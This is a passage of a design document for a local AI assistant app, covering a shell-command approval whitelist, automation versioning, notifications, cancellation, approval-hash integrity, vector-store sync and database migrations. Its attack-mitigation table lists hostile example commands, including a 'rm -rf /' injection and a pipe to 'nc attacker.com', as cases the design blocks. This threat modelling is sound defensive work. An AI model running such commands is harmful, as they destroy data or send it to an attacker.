    G --> O[Log: path, args, cwd,<br/>exit_code, stdout, stderr]
    M --> O
    N --> O
    
    style J fill:#f99
    style K fill:#9f9
```

**Whitelist Structure**:

Whitelisted commands are stored as structured objects, not raw strings:

```yaml
whitelisted_commands:
  # Exact match (safest)
  - executable: git
    args: [status]
    
  # Pattern match (flexible)
  - executable: npm
    args_pattern: "^(test|run (build|dev|test))$"
    
  # Working directory constraint
  - executable: make
    args: [test]
    cwd_pattern: ".*/Repos/.*"  # Only in Repos folder
```

**Whitelist Matching Algorithm**:
1. Parse requested command into executable + args
2. Resolve executable to canonical path using `which` or `shutil.which()`
3. Check each whitelist entry:
   - If `args` specified: exact list match
   - If `args_pattern` specified: regex match on joined args
   - If `cwd_pattern` specified: match current working directory
4. If any entry matches: skip approval, execute via subprocess with shell=False
5. If no match: require approval

**Approval UI Display**:

When command requires approval, show full execution context:

```
┌─────────────────────────────────────────────────┐
│ Shell Command Approval Required                │
├─────────────────────────────────────────────────┤
│ Executable: /usr/bin/git                       │
│ Arguments:  status --short                     │
│ Directory:  /Users/user/Repos/project          │
│ Environment: HOME=/Users/user                  │
│              PATH=/usr/bin:/bin                │
│                                                 │
│ This command will run as:                      │
│ > /usr/bin/git status --short                  │
│                                                 │
│ [Approve]  [Deny]  [Approve & Whitelist]       │
└─────────────────────────────────────────────────┘
```

**Logging Detail**:

Every execution (approved, denied, whitelisted) logs to activities table:

```json
{
  "tool": "shell",
  "action": "execute",
  "requested_command": "git status",
  "canonical_executable": "/usr/bin/git",
  "args": ["status"],
  "cwd": "/Users/user/Repos/project",
  "shell": false,
  "whitelisted": true,
  "approval_required": false,
  "exit_code": 0,
  "stdout": "On branch main\\nnothing to commit",
  "stderr": "",
  "duration_ms": 42
}
```

**Security Properties**:

✅ **Prevents unintended shell injection**: subprocess with shell=False blocks metacharacters (`;`, `|`, `&&`, etc.)
✅ **Transparency**: User sees exact command that will execute
✅ **Auditability**: Complete log of all executions with full context
✅ **Technical flexibility**: User can still approve complex commands when needed
✅ **Path normalization**: Whitelist matches canonical paths, not raw input

**Attack Mitigation**:

| Attack Vector | Mitigation |
|--------------|------------|
| `git status; rm -rf /` | Parsed as `["git", "status;", "rm", "-rf", "/"]` → no semicolon interpretation |
| `/usr/bin/git status` vs `git status` | Both resolve to `/usr/bin/git` → whitelist matches |
| `./malicious-git status` | Resolves to absolute path → won't match whitelist |
| `git status \| nc attacker.com` | Pipe character passed as literal arg → command fails |
| Environment variable injection | Only whitelisted env vars passed to subprocess |

**Design Trade-offs**:

- **Flexibility over restriction**: Technical user can approve anything, system prevents accidents not intentional actions
- **Transparency over obscurity**: Show exactly what will happen, trust user judgment
- **Audit over prevention**: Log everything, enable post-incident analysis
- **Subprocess safety by default**: Use shell=False unless explicitly needed

#### Automation Version Management

This section defines how automation versioning works, the role of the `active` flag, and how schedules bind to specific automation versions.

**Version Binding Model**:

Schedules reference `automations.id` (primary key) which represents a specific version. Changing the `active` flag does not affect existing schedule bindings.

**Example Workflow**:

```
1. User creates "Daily Backup" v1 (id=5, active=true)
2. User creates schedule: "Run at 12:00 AM" → automation_id=5
3. User creates "Daily Backup" v2 (id=8, active=true)
   - System sets v1 active=false
   - System sets v1 replaced_at=NOW()
   - System sets v1 replaced_by_id=8
4. Schedule still runs v1 (id=5) until user manually updates
5. User can bulk-upgrade schedules to v2 via API
```

**Active Flag Purpose**:

The `active` flag is UI/API metadata, not execution control:

| Use Case | Behavior |
|----------|----------|
| **Schedule creation UI** | Pre-selects active version in dropdown |
| **"Run Now" button** | Executes active version by default |
| **Automation list filter** | Shows only active versions when "Show current only" enabled |
| **Bulk schedule upgrade** | Updates all schedules of automation name to active version |
| **Schedule execution** | Ignores active flag - uses explicit automation_id from schedule |

**Version Promotion Workflow**:


```mermaid
sequenceDiagram
    participant User as User
    participant UI as Automation UI
    participant API as Backend API
    participant DB as Database
    
    Note over User,DB: Create New Version
    User->>UI: Create v2 of "Daily Backup"
    UI->>API: POST /api/v1/automations<br/>{name, version, instruction...}
    
    API->>DB: BEGIN TRANSACTION
    API->>DB: SELECT * WHERE name='Daily Backup'<br/>AND active=true
    DB-->>API: v1 (id=5)
    
    API->>DB: UPDATE automations SET<br/>active=false,<br/>replaced_at=NOW(),<br/>replaced_by_id=8<br/>WHERE id=5
    
    API->>DB: INSERT INTO automations<br/>(name, version=2, active=true)
    DB-->>API: New id=8
    API->>DB: COMMIT
    
    API-->>UI: Success (v2 created, id=8)
    
    Note over User,DB: Optional: Bulk Schedule Upgrade
    User->>UI: Click "Upgrade all schedules to v2"
    UI->>API: POST /api/v1/schedules/bulk-upgrade<br/>{automation_name: "Daily Backup"}
    
    API->>DB: SELECT id FROM automations<br/>WHERE name='Daily Backup'<br/>AND active=true
    DB-->>API: id=8 (v2)
    
    API->>DB: UPDATE schedules<br/>SET automation_id=8<br/>WHERE automation_id IN (<br/>  SELECT id FROM automations<br/>  WHERE name='Daily Backup'<br/>)
    
    API-->>UI: Updated 3 schedules
    UI->>UI: Show success message
```

**Bulk Schedule Upgrade API**:

```http
POST /api/v1/schedules/bulk-upgrade
Content-Type: application/json

{
  "automation_name": "Daily Backup",
  "target_version": null  # null = active version, or specify version number
}

Response:
{
  "updated_count": 3,
  "schedules_updated": [
    {"id": 1, "old_version": 1, "new_version": 2},
    {"id": 4, "old_version": 1, "new_version": 2},
    {"id": 7, "old_version": 1, "new_version": 2}
  ]
}
```

**Database Constraint**:

```sql
-- SQLite 3.8+ partial unique index
CREATE UNIQUE INDEX idx_automations_active_name 
ON automations(name) 
WHERE active = 1;

-- Prevents this:
INSERT INTO automations (name, version, 3, active) VALUES ('Daily Backup', 3, true);
-- Error: UNIQUE constraint failed (Daily Backup already has active version)
```

**Audit Trail**:

Activities table tracks execution version:

```sql
-- Activity created when schedule executes
INSERT INTO activities (
  id, type, status, 
  automation_id, automation_version,  -- Audit trail
  user_input, ai_response
) VALUES (
  'act_123', 'AUTOMATION', 'COMPLETED',
  5, 1,  -- Ran v1 even though v2 is now active
  'Scheduled: Daily Backup', '...'
);

-- Query: Which version executed on specific date?
SELECT automation_version, COUNT(*) 
FROM activities 
WHERE automation_id IN (SELECT id FROM automations WHERE name='Daily Backup')
  AND DATE(created_at) = '2026-01-24'
GROUP BY automation_version;

-- Result: version 1 ran 3 times (schedule not upgraded yet)
```

**Version Rollback**:

To rollback to previous version:
1. User marks old version as active (via UI/API)
2. System sets current active=false
3. User can bulk-upgrade schedules to rolled-back version
4. No validation needed (schedules can point to any version, active or not)

**Edge Cases**:

| Scenario | Behavior |
|----------|----------|
| Schedule points to deleted automation | Schedule execution fails, logs ERROR activity |
| Multiple versions exist, none active | UI shows warning, bulk upgrade disabled |
| User manually edits schedule to non-active version | Valid - execution proceeds normally |
| Create new version without setting active=true | Old version remains active, new version usable but not default |

**Design Rationale**:

✅ **Explicit over implicit**: User controls when schedules adopt new versions
✅ **Safety**: No surprise changes - schedules run what they're configured to run
✅ **Audit trail**: Know exactly which version executed for compliance/debugging
✅ **Flexibility**: Can test new version manually before promoting to schedules
❌ **Manual upgrade burden**: User must remember to upgrade schedules (mitigated by bulk upgrade tool)

#### Schedule Missed Execution Notification Workflow

This section defines the multi-channel notification system for alerting users about missed schedule executions.

**Design Philosophy**: Flexible notification delivery matching urgency level—critical alerts reach user immediately via multiple channels, while routine notifications can wait for next login.

**Notification Trigger Flow**:


```mermaid
sequenceDiagram
    participant Sched as Schedule Executor
    participant DB as Database
    participant NotifSvc as Notification Service
    participant InApp as In-App Store
    participant Push as Push Service
    participant Webhook as Webhook Service
    
    Note over Sched,Webhook: Schedule Execution Attempt
    Sched->>Sched: Check for IN_PROGRESS<br/>activities
    
    alt Any activity IN_PROGRESS
        Sched->>DB: INSERT activity<br/>status=MISSED<br/>reason="active_task"
        Sched->>DB: UPDATE schedules<br/>consecutive_misses += 1
        
        DB->>DB: Check: consecutive_misses >= alert_threshold?
        
        alt Threshold reached
            DB->>NotifSvc: Trigger alert<br/>(schedule_id, consecutive_misses)
            
            NotifSvc->>NotifSvc: Get schedule config:<br/>- alert_severity<br/>- alert_channels<br/>- automation name
            
            NotifSvc->>DB: INSERT notification<br/>type='schedule_missed'<br/>severity=schedule.alert_severity<br/>channels=schedule.alert_channels
            
            Note over NotifSvc,Webhook: Parallel Channel Delivery
            
            par In-App Notification
                NotifSvc->>InApp: Store notification<br/>(persistent, unacknowledged)
                InApp-->>NotifSvc: Success
            and Device Push
                alt 'push' in channels
                    NotifSvc->>Push: Send push notification
                    Push-->>NotifSvc: delivery_status
                end
            and External Webhook
                alt 'webhook' in channels
                    NotifSvc->>Webhook: HTTP request to configured endpoint<br/>(method/payload per config)
                    Webhook-->>NotifSvc: delivery_status
                end
            end
            
            NotifSvc->>DB: UPDATE notification<br/>channels_sent=[...]<br/>channels_failed=[...]
        end
    else No blocking activities
        Sched->>Sched: Execute automation
        Sched->>DB: UPDATE schedules<br/>consecutive_misses = 0
    end
```

**Notification Payload Structure**:

```json
{
  "id": "notif_abc123",
  "type": "schedule_missed",
  "severity": "WARNING",
  "title": "Schedule Missed: Daily Backup",
  "message": "Automation 'Daily Backup' has missed 3 consecutive executions. Last attempt: 2026-01-24 08:00 UTC. Reason: Active task in progress (tool reload).",
  "related_schedule_id": "sched_xyz789",
  "related_activity_id": null,
  "metadata": {
    "schedule_name": "Daily Backup",
    "automation_name": "Backup to S3",
    "consecutive_misses": 3,
    "alert_threshold": 3,
    "last_attempt": "2026-01-24T08:00:00Z",
    "last_success": "2026-01-23T08:00:15Z",
    "blocking_reason": "tool_reload_in_progress"
  },
  "channels_sent": ["in_app", "push"],
  "channels_failed": ["webhook"],
  "acknowledged": false,
  "created_at": "2026-01-24T08:00:05Z"
}
```

**Channel-Specific Delivery**:

| Channel | Delivery Mechanism | Retry Strategy | User Action |
|---------|-------------------|----------------|-------------|
| **In-App** | Direct database insert, WebSocket broadcast to active sessions | No retry (persistent storage) | Click notification → view related schedule |
| **Device Push** | Web Push API with VAPID authentication | 3 retries, exponential backoff (1s, 2s, 4s) | Tap notification → open app to schedule details |
| **External Webhook** | HTTP request to configured webhook endpoint (method/payload configurable) | Configurable retry strategy | Delivery depends on webhook service (mobile push, Slack message, etc.) |

**Severity Level Behavior**:

| Severity | Default Channels | Auto-Dismiss | Typical Use Case |
|----------|-----------------|--------------|------------------|
| **INFO** | `["in_app"]` | 7 days | Low-priority schedule missed (e.g., weekly cleanup) |
| **WARNING** | `["in_app", "push"]` | Never | Important schedule missed multiple times (e.g., daily backup) |
| **CRITICAL** | `["in_app", "push", "webhook"]` | Never | Business-critical automation failing (e.g., monitoring alert system) |

**Per-Schedule Alert Configuration**:

Schedules table includes per-schedule overrides:

```sql
-- Example: Critical backup schedule with aggressive alerting
INSERT INTO schedules (
  cron_expression, 
  automation_id, 
  alert_threshold,      -- Override: 2 (vs default 3)
  alert_severity,        -- Override: CRITICAL
  alert_channels         -- Override: all channels
) VALUES (
  '0 8 * * *',
  (SELECT id FROM automations WHERE name='Daily Backup'),
  2,
  'CRITICAL',
  '["in_app", "push", "webhook"]'
);

-- Example: Low-priority schedule with minimal alerting
INSERT INTO schedules (
  cron_expression,
  automation_id,
  alert_threshold,      -- Override: 5 (tolerate more misses)
  alert_severity,        -- Override: INFO
  alert_channels         -- Override: in-app only
) VALUES (
  '0 2 * * 0',
  (SELECT id FROM automations WHERE name='Weekly Logs Cleanup'),
  5,
  'INFO',
  '["in_app"]'
);
```

**Notification Inbox UI**:

```
┌─────────────────────────────────────────────────────────────┐
│ 🔔 Notifications (3 unread)                          [⚙️]   │
├─────────────────────────────────────────────────────────────┤
│ 🔴 CRITICAL - Schedule Missed: Daily Backup                 │
│    3 consecutive misses. Last attempt: 8:00 AM              │
│    Reason: Tool reload in progress                          │
│    2 minutes ago  [View Schedule]  [Acknowledge]           │
│                                                             │
│ 🟡 WARNING - Schedule Missed: Email Triage                  │
│    3 consecutive misses. Last attempt: 7:00 AM              │
│    Reason: Previous automation still running                │
│    1 hour ago  [View Schedule]  [Acknowledge]              │
│                                                             │
│ 🟢 INFO - Tool Configuration Updated                        │
│    Gmail tool settings changed via API                      │
│    Yesterday at 4:30 PM  [Dismiss]                         │
└─────────────────────────────────────────────────────────────┘
```

**Webhook Integration Examples**:

```python
# Generic JSON webhook (Slack, Discord, custom)
{
  "text": "Schedule Missed: Daily Backup",
  "description": "Automation 'Daily Backup' has missed 3 consecutive executions...",
  "severity": "WARNING",
  "timestamp": 1737710405,
  "link": "aiassistant://schedules/sched_xyz789"
}

# Pushover-style payload (configure via payload_template)
{
  "token": "{{env.PUSHOVER_APP_TOKEN}}",
  "user": "{{env.PUSHOVER_USER_KEY}}",
  "title": "Schedule Missed: Daily Backup",
  "message": "Automation 'Daily Backup' has missed 3 consecutive executions...",
  "priority": 1,
  "url": "aiassistant://schedules/sched_xyz789"
}
```

**Reset Logic**:


```mermaid
stateDiagram-v2
    [*] --> Normal: consecutive_misses=0
    Normal --> Missed1: Execution skipped
    Missed1 --> Missed2: Execution skipped
    Missed2 --> AlertThreshold: Execution skipped<br/>(consecutive_misses=3)
    AlertThreshold --> Alerted: Send notifications
    
    Alerted --> Normal: Successful execution
    Missed2 --> Normal: Successful execution
    Missed1 --> Normal: Successful execution
    
    Alerted --> Alerted: Execution skipped<br/>(send notification each time)
    
    note right of Normal
      Counter resets on ANY
      successful execution
    end note
    
    note right of Alerted
      Notification sent every time
      threshold is met or exceeded
    end note
```

**Future Enhancements** (v1.1+):

- **Smart escalation**: Start with INFO, escalate to WARNING after 5 misses, CRITICAL after 10
- **Quiet hours**: Suppress push/webhook notifications during configured hours (in-app still persists)
- **Notification grouping**: "3 schedules have missed executions" instead of 3 separate notifications
- **Trend analysis**: "Daily Backup has 80% success rate this week" proactive alerts

---

#### Activity Cancellation Workflow

This section defines the user-initiated cancellation mechanism for stopping in-progress activities.

**Design Philosophy**: Empower users to stop runaway or unnecessary automations gracefully without data corruption.

**Cancellation API**:

**Endpoint**: `POST /api/v1/activities/{activity_id}/cancel`

**Request Body**:
```json
{
  "reason": "User-provided cancellation reason (optional)"
}
```

**Response** (202 Accepted):
```json
{
  "activity_id": "act_abc123",
  "status": "cancelling",
  "message": "Cancellation initiated. Activity will terminate gracefully."
}
```

**Cancellation Process**:


```mermaid
sequenceDiagram
    participant User
    participant API as Cancellation API
    participant ActivityMgr as ActivityManager
    participant Executor as Running Automation
    participant DB as Database
    
    User->>API: POST /activities/{id}/cancel<br/>{reason: "Taking too long"}
    API->>ActivityMgr: Request cancellation
    
    ActivityMgr->>DB: Load activity record
    alt Activity status IN_PROGRESS
        ActivityMgr->>DB: UPDATE status='CANCELLING'<br/>SET cancellation_requested_at=NOW()
        ActivityMgr->>Executor: Send cancellation signal<br/>(asyncio.Task.cancel())
        
        alt Graceful shutdown
            Executor->>Executor: Complete current tool execution
            Executor->>Executor: Skip remaining tools
            Executor->>DB: UPDATE status='CANCELLED'<br/>SET cancelled_at, cancelled_by, cancellation_reason
            Executor->>ActivityMgr: Cleanup complete
        else Forced termination (timeout)
            Note over Executor: 30s grace period expires
            ActivityMgr->>Executor: Force kill
            ActivityMgr->>DB: UPDATE status='CANCELLED'<br/>SET cancellation_reason="Forced after timeout"
        end
        
        API-->>User: 202 Accepted
    else Activity status PENDING
        ActivityMgr->>DB: UPDATE status='CANCELLED'<br/>(never started)
        API-->>User: 200 OK
    else Activity already terminal
        API-->>User: 400 Bad Request<br/>"Activity already completed"
    end
```

**Graceful Termination Logic**:

1. **Signal Propagation**: ActivityManager sets `cancellation_requested` flag in activity context
2. **Tool Completion**: Current tool invocation completes (doesn't interrupt mid-operation)
3. **Skip Remaining**: AI agent checks flag between tools, exits early if set
4. **Cleanup**: Activity marked CANCELLED with timestamp and user info
5. **Grace Period**: If not completed within 30 seconds, force termination

**State Transitions**:

| Current Status | Action | New Status | Notes |
|----------------|--------|------------|-------|
| PENDING | Cancel | CANCELLED | Immediate (never started) |
| IN_PROGRESS | Cancel | CANCELLING → CANCELLED | Graceful shutdown attempt |
| PENDING_APPROVAL | Cancel | CANCELLED | Approval request withdrawn |
| COMPLETED/FAILED | Cancel | (rejected) | Cannot cancel terminal states |

**UI Components**:

**Running Automations View**:
```
┌─────────────────────────────────────────────────────────────┐
│ Running Automations (2 active)                              │
├─────────────────────────────────────────────────────────────┤
│ ⏳ Daily Backup                           [Cancel] [Details]│
│    Running for 2m 15s                                       │
│    Current: Uploading files to S3                           │
│    Progress: 45/100 files                                   │
│                                                             │
│ ⏳ Email Triage                           [Cancel] [Details]│
│    Running for 45s                                          │
│    Current: Analyzing inbox                                 │
│    Progress: 12/50 emails                                   │
└─────────────────────────────────────────────────────────────┘
```

**Activity Details View** (for any IN_PROGRESS activity):
```
┌─────────────────────────────────────────────────────────────┐
│ Activity: Daily Backup                                      │
│ Status: IN_PROGRESS ⏳                      [Cancel Button] │
├─────────────────────────────────────────────────────────────┤
│ Started: 2026-01-24 10:30:00                               │
│ Duration: 2m 15s                                            │
│                                                             │
│ Tool Execution Log:                                         │
│ ✅ shell_execute: Check disk space (2s)                     │
│ ✅ file_compress: Create archive (45s)                      │
│ ⏳ s3_upload: Upload to cloud (1m 28s, ongoing...)         │
│                                                             │
│ [Cancel Automation]                                         │
│   Reason: ___________________________________              │
│   ⚠️ Current operation will complete before stopping       │
└─────────────────────────────────────────────────────────────┘
```

**Cancellation Confirmation Dialog**:
```
┌─────────────────────────────────────────────────────────────┐
│ Cancel Automation?                                          │
├─────────────────────────────────────────────────────────────┤
│ You are about to cancel:                                    │
│ • Automation: Daily Backup                                  │
│ • Running for: 2m 15s                                       │
│ • Current operation: Uploading files to S3                  │
│                                                             │
│ ⚠️ Note: Current tool operation will complete before       │
│ cancellation. This may take up to 30 seconds.               │
│                                                             │
│ Reason (optional):                                          │
│ [ Taking too long, will retry later                       ] │
│                                                             │
│         [Go Back]              [Cancel Automation]          │
└─────────────────────────────────────────────────────────────┘
```

**Database Schema Updates**:

See activities table schema updates for cancellation fields:
- `cancelled_at TIMESTAMP NULL`
- `cancelled_by TEXT NULL` (user ID or "system")
- `cancellation_reason TEXT NULL`

**Metadata Tracking**:

Cancellation metadata stored in activities.metadata JSON:
```json
{
  "cancellation": {
    "requested_at": "2026-01-24T10:32:15Z",
    "completed_at": "2026-01-24T10:32:18Z",
    "requested_by": "user_123",
    "reason": "Taking too long, will retry later",
    "grace_period_used": "3s",
    "tools_completed_before_cancel": 2,
    "tools_skipped": 3,
    "forced_termination": false
  }
}
```

**Edge Cases**:

| Scenario | Behavior |
|----------|----------|
| Cancel during tool reload | Cancels reload, tools may be in inconsistent state; system re-validates on next startup |
| Cancel with pending approvals | Approval request automatically denied, activity marked CANCELLED |
| Cancel child activity | Parent continues unless explicitly cancelled too |
| Double-cancel request | Second request ignored (idempotent) |
| Cancellation during LLM streaming | Stream terminates, partial response saved to activity |

**Security Considerations**:

- Only activity owner can cancel (user_id match)
- System admins can cancel any activity
- Cancellation logged to audit trail
- Cannot cancel activities for other users (multi-user support in future)

**Future Enhancements** (v1.1+):
- **Pause/Resume**: Temporarily pause automation, resume later
- **Scheduled Cancellation**: "Cancel if not done in 10 minutes"
- **Batch Cancellation**: Cancel all automations of type X
- **Cancel Confirmation Skip**: "Don't ask again for this automation"

---

#### Approval Action Integrity

This section defines the mechanism to prevent tampering of approval actions between request and execution.

**Problem**: Activities awaiting approval store action details that could be modified in the database, allowing privilege escalation (e.g., changing `git status` to `rm -rf /`).

**Solution**: Cryptographic hash verification using SHA256.


**Implementation Workflow**:


```mermaid
sequenceDiagram
    participant Tool as Tool (requests approval)
    participant DB as SQLite Database
    participant UI as Approval Queue UI
    participant API as Approval API
    
    Note over Tool,API: Approval Request Phase
    Tool->>Tool: Prepare action details JSON<br/>{tool: "shell", cmd: "git status"}
    Tool->>Tool: Generate SHA256 hash<br/>of canonical JSON
    Tool->>DB: INSERT activity<br/>status='PENDING_APPROVAL'<br/>approval_action=json<br/>approval_action_hash=hash
    
    Note over Tool,API: Display Phase
    UI->>DB: SELECT pending approvals
    DB-->>UI: approval_action JSON
    UI->>UI: Display: "Execute 'git status'"
    
    Note over Tool,API: Approval Execution Phase
    UI->>API: POST /approve/{activity_id}
    API->>DB: SELECT approval_action, approval_action_hash
    API->>API: Compute SHA256 of approval_action
    
    alt Hash Matches
        API->>API: Hashes match ✓
        API->>Tool: Execute approved action
        Tool-->>API: Result
        API->>DB: UPDATE status='COMPLETED'<br/>Create child activity
    else Hash Mismatch
        API->>API: Hashes don't match ✗
        API->>DB: UPDATE status='INVALID'<br/>SET metadata.tamper_detected=true
        API->>API: Log security event
        API-->>UI: Error: "Action tampered"
    end
```

**Hash Generation**:
- Canonical JSON format: sorted keys, no whitespace
- Algorithm: SHA256 (256-bit security, collision-resistant)
- Stored as 64-character hex string

**Verification**:
- Recompute hash from current `approval_action` JSON
- Compare with stored `approval_action_hash`
- Reject if mismatch, log security event

**Display in UI**:
- Deserialize `approval_action` JSON for display
- Show tool name, operation type, affected resources
- Hash verification happens transparently on approval

**Security Properties**:
- **Tamper Detection**: Any modification to `approval_action` JSON invalidates hash
- **Non-Repudiation**: User can't claim they approved different action than displayed
- **Audit Trail**: Tamper attempts logged with activity_id, timestamp, user

**Edge Cases**:
- **JSON Serialization**: Use canonical form (sorted keys) to prevent false positives from key ordering
- **Hash Algorithm**: SHA256 provides 256-bit security, collision-resistant
- **Database Backup/Restore**: Hash remains valid as long as approval_action unchanged

#### Knowledge Base Sync Architecture

This section defines the async synchronization strategy between SQLite (source of truth) and Chroma (vector store) for the knowledge base.

**Design Principle**: Eventual consistency with SQLite as authoritative source. Chroma sync failures don't block knowledge base writes.

**Sync Workflow**:


```mermaid
sequenceDiagram
    participant API as KB Write API
    participant DB as SQLite
    participant Queue as Sync Queue
    participant Worker as Background Worker
    participant Chroma as Chroma Vector Store
    
    Note over API,Chroma: Write Phase (Synchronous)
    API->>DB: BEGIN TRANSACTION
    API->>DB: INSERT INTO kb_procedures<br/>(chroma_sync_status='PENDING')
    API->>DB: COMMIT
    API->>Queue: Enqueue sync job
    API-->>API: Return procedure_id<br/>(immediately available for FTS)
    
    Note over API,Chroma: Async Sync Phase (Background)
    Queue->>Worker: Dequeue sync job
    Worker->>DB: SELECT procedure by id
    Worker->>Worker: Generate embedding
    
    alt Chroma Sync Success
        Worker->>Chroma: Add document + embedding
        Chroma-->>Worker: Success
        Worker->>DB: UPDATE chroma_sync_status='SYNCED'<br/>SET chroma_synced_at=NOW()
    else Chroma Sync Failure (retry < 3)
        Worker->>Chroma: Add document + embedding
        Chroma-->>Worker: Error
        Worker->>Worker: Calculate backoff: 2^retry_count
        Worker->>Queue: Re-enqueue with delay<br/>(retry_count + 1)
    else Chroma Sync Failure (max retries)
        Worker->>Chroma: Add document + embedding
        Chroma-->>Worker: Error
        Worker->>DB: UPDATE chroma_sync_status='FAILED'<br/>SET chroma_error=error_msg
    end
    
    Note over API,Chroma: Reconciliation (Daily 2 AM)
    Worker->>DB: SELECT WHERE chroma_sync_status<br/>IN ('PENDING', 'FAILED')
    Worker->>Queue: Re-enqueue failed syncs
    Worker->>Chroma: Get all Chroma IDs
    Worker->>DB: Get all SQLite IDs
    Worker->>Worker: Find orphaned Chroma entries
    Worker->>Chroma: Delete orphans
```

**Degraded Mode** (Chroma Unavailable):

When Chroma sync is failing, knowledge base search falls back to FTS-only mode:


```mermaid
flowchart TD
    A[Search Request] --> B{Chroma Available?}
    B -->|Yes| C[Run FTS Query]
    B -->|No| G[Log Warning]
    C --> D[Generate Query Embedding]
    D --> E[Run Chroma Semantic Search]
    E --> F[Merge FTS + Semantic Results]
    F --> H[Return Results]
    G --> I[Run FTS Query Only]
    I --> H
    
    style G fill:#ff9
    style I fill:#ff9
```

**Monitoring & Alerts**:

Track sync health metrics:
- Pending sync count (alert if > 50)
- Failed sync count (alert if > 10)
- Avg sync latency
- Reconciliation job success rate

**Benefits of Async Sync**:
- **Resilience**: KB writes never fail due to Chroma issues
- **Performance**: No blocking on embedding generation or vector store writes
- **Degraded Mode**: System remains functional with FTS-only search
- **Simplicity**: No complex two-phase commit or compensation logic
- **Recovery**: Reconciliation job fixes divergence automatically

**Trade-offs**:
- **Eventual Consistency**: New procedures may not appear in semantic search for a few seconds
- **Storage Overhead**: Sync status columns add ~50 bytes per procedure
- **Background Worker**: Requires job queue (e.g., RQ, Celery, or simple threading.Timer)

#### Migration Strategy

This section defines the database schema migration approach, execution order, rollback procedures, and version management.

**Migration Tool**: Alembic (Python database migration framework)

**Migration Phases**:


```mermaid
flowchart TD
    A[Phase 1: Alembic Init] --> B[Phase 2: Base Tables]
    B --> C[Phase 3: Indexes]
    C --> D[Phase 4: FTS Tables]
    D --> E[Phase 5: Triggers]
    E --> F[Phase 6: Seed Data]
    F --> G[Phase 7: Version Check]
    
    style A fill:#e1f5ff
    style B fill:#fff4e1
    style C fill:#fff4e1
    style D fill:#ffe1f5
    style E fill:#ffe1f5
    style F fill:#e1ffe1
    style G fill:#e1ffe1
```

**Phase 1: Alembic Initialization**

Initial setup of migration infrastructure:

1. **Create Alembic environment** in `backend/migrations/`
   - Configuration file: `alembic.ini`
   - Version scripts directory: `backend/migrations/versions/`
   - Environment script: `backend/migrations/env.py`

2. **Configure SQLite connection** in `env.py`
   - Read database path from environment variable `AI_ASSISTANT_DB_PATH`
   - Default: `~/.ai_assistant/data/ai_assistant.db`
   - Enable WAL mode on connection: `PRAGMA journal_mode=WAL`
   - Enable foreign keys: `PRAGMA foreign_keys=ON`

3. **Version table tracking**
   - Alembic creates `alembic_version` table automatically
   - Stores current schema version (revision hash)
   - Used for startup validation (see Phase 7)

**Phase 2: Base Tables Migration**

First migration creates all core tables in dependency order:


```mermaid
graph TD
    A[automations] --> B[activities]
    A --> C[schedules]
    D[kb_procedures] 
    E[notifications]
    C --> B
    
    style A fill:#ffcccc
    style B fill:#ccffcc
    style C fill:#ccccff
    style D fill:#ffffcc
    style E fill:#ffccff
```

**Execution Order**:
1. `automations` (no dependencies)
2. `kb_procedures` (no dependencies)
3. `notifications` (no dependencies)
4. `schedules` (references automations)
5. `activities` (references automations, schedules)

**Rollback Strategy**: DROP tables in reverse order (activities → schedules → automations)

**Phase 3: Indexes Migration**

Second migration creates performance indexes:

**Index Types**:
- **Primary keys**: Automatically created with tables (no explicit index needed)
- **Foreign keys**: Indexes on automation_id, schedule_id, parent_activity_id
- **Query optimization**: Indexes on status, trigger, created_at
- **Search optimization**: Composite indexes for common filters

**Critical Indexes**:
- `idx_activities_status` on activities(status) - approval queue queries
- `idx_activities_trigger_created` on activities(trigger, created_at) - scheduled execution history
- `idx_schedules_active_next` on schedules(active, next_run_at) - scheduler queries
- `idx_kb_procedures_chroma_sync` on kb_procedures(chroma_sync_status) - sync worker queries

**Rollback Strategy**: DROP indexes by name (no data loss)

**Phase 4: FTS Tables Migration**

Third migration creates Full-Text Search tables with external content configuration:

**FTS5 Configuration**:
- `content=''` - External content table (no duplication)
- `content_rowid='id'` - Link to source table
- Tokenizer: `unicode61` with remove_diacritics

**Tables**:
1. `activities_fts` - Full-text search on llm_response and user_input
2. `kb_procedures_fts` - Full-text search on procedure_text

**Why After Base Tables**: FTS tables reference source tables via content_rowid

**Rollback Strategy**: DROP FTS tables (source data unchanged)

**Phase 5: Triggers Migration**

Fourth migration creates database triggers in dependency order:


```mermaid
sequenceDiagram
    participant App
    participant activities
    participant activities_fts
    participant closure
    
    Note over App,closure: Insert Trigger
    App->>activities: INSERT activity
    activities->>activities_fts: AFTER INSERT trigger<br/>Update FTS index
    activities->>closure: AFTER INSERT trigger<br/>Insert self-reference
    
    Note over App,closure: Update Trigger
    App->>activities: UPDATE activity
    activities->>activities_fts: AFTER UPDATE trigger<br/>Update FTS index
    
    Note over App,closure: Delete Trigger
    App->>activities: DELETE activity
    activities->>activities_fts: BEFORE DELETE trigger<br/>Delete from FTS
    activities->>closure: BEFORE DELETE trigger<br/>Delete closure entries
```

**Trigger Dependency Order**:

1. **FTS Triggers** (activities_fts, kb_procedures_fts)
   - AFTER INSERT: Add to FTS index
   - AFTER UPDATE: Update FTS index
   - BEFORE DELETE: Remove from FTS index

2. **Closure Table Triggers** (activity_closure)
   - AFTER INSERT on activities: Insert self-reference (depth=0)
   - AFTER INSERT on activities: Copy parent's ancestors (depth+1)
   - BEFORE DELETE on activities: Delete closure entries

3. **Notification Triggers** (optional, for complex notification logic)
   - AFTER UPDATE on schedules: Detect missed executions
   - AFTER INSERT on activities: Check for approval requirements

**Why After FTS Tables**: Triggers reference FTS tables

**Rollback Strategy**: DROP triggers by name, then DROP closure table

**Phase 6: Seed Data Migration**

Fifth migration inserts initial data (optional):

**Seed Categories**:
- **Default automations**: Example email triage, knowledge base templates
- **System credentials**: Placeholder OAuth configs for Gmail, GitHub
- **Sample procedures**: Common patterns for knowledge base

**Characteristics**:
- Idempotent: Check for existence before insert
- Optional: Not required for system operation
- Versioned: Seed data updated in subsequent migrations

**Rollback Strategy**: DELETE seed data by specific IDs

**Phase 7: Automatic Migration Execution**

Application automatically runs migrations on startup for seamless end-user experience:


```mermaid
sequenceDiagram
    participant User
    participant App
    participant MigrationRunner
    participant Database
    participant Backup
    
    User->>App: Launch application
    App->>Database: Check if database exists
    
    alt Database doesn't exist (first launch)
        App->>User: Show "Setting up database..."
        App->>MigrationRunner: Run all migrations programmatically
        MigrationRunner->>Database: CREATE tables, indexes, triggers
        Database-->>MigrationRunner: ✅ Schema created
        MigrationRunner-->>App: Migration complete
        App->>User: "Setup complete" → Continue to UI
    else Database exists
        App->>Database: SELECT version_num FROM alembic_version
        Database-->>App: Current version (e.g., "a1b2c3d4")
        App->>MigrationRunner: Get expected version from embedded migrations
